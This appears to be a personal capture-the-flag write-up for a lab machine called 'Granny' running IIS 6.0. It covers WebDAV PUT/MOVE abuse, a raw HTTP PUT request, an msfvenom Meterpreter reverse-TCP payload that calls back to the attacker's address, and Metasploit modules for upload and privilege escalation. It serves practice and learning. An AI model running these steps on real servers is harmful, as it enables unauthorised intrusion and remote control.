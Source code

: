 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Granny
# 19/3/2023
10.10.10.15

----------------------------------------------------
# nmap
----------------------------------------------------
80/tcp open  http    Microsoft IIS httpd 6.0


----------------------------------------------------
# exploitation
----------------------------------------------------

we can use put and move method in http

└─$ davtest -url http://10.10.10.15/
do it through burp and capture the request





PUT /my.html HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: close
Host: localhost:80
User-Agent: DAV.pm/v0.49
Content-Length: 26

HTML put via davtest<br />






use burp and upload payload and get reverse connection

└─$ msfvenom -p windows/meterpreter/reverse_tcp -ax86 LHOST=10.10.16.2 LPORT=6969 -f aspx 
msf6 exploit(multi/handler) > 

put payload as a html then move as aspx
or
use iis_webdav_upload_asp

you get a shell


----------------------------------------------------
# priv esc
----------------------------------------------------
first migrate the session uder other running procces 
in this casa davcdata.exe
use post/multi/recon/local_exploit_suggester
run

use exploit/windows/local/ms15_051_client_copy_image
run

